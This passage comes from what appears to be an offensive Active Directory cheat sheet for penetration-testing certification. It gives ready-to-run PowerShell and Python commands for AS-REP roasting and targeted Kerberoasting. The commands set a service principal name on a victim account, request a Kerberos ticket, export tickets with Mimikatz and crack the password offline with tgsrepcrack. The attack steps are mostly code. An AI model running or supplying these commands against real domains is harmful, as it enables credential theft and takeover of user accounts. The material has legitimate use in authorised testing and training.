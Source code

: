 **3. Request encrypted AS REP for offline brute force with John:**

```
# Request encrypted AS REP
Get-ASREPHash -UserName VPN1user -Verbose
```

#### Targeted Kerberoasting Set SPN



**1. With Powerview dev Version:**

```
# Check if user01 already has a SPN
Get-DomainUser -Identity User01 | select serviceprincipalname
# Set a SPN for the user
Set-DomainObject -Identity User01 -Set @{serviceprincipalname='ops/whatever1'}
```

**2. With AD Module:**

```
# Check if user01 already has a SPN
Get-ADUser -Identity User01 -Properties serviceprincipalname | select serviceprincipalname
# Set a SPN for the user
Set-ADUser -Identity User01 -ServicePrincipalNames @{Add='ops/whatever1'}
```

**3. Request a ticket:**

```
# Step 1 - Request a ticket
Add-Type -AssemblyNAme System.IdentityModel
# Step 2 - Request a ticket
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
# Check if the ticket has been granted
klist
```

**Example:**

[![Main Logo](https://github.com/hackinaggie/OSEP-Tools-v2/raw/main/Other/ad_cs_imgs/Example_SPN01.png)](https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Other/ad_cs_imgs/Example_SPN01.png)

**4. Export all tickets and Bruteforce the password:**

```
# Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
# Brute force the password with tgsrepcrack
python.exe .\kerberoast\tgsrepcrack.py .\kerberoast\wordlists.txt '.\3-40a10000-user01@ops~whatever1-CORP.CORPORATE.LOCAL.kirbi'
```

#### Kerberos Delegation



#### Unconstrained Delegation
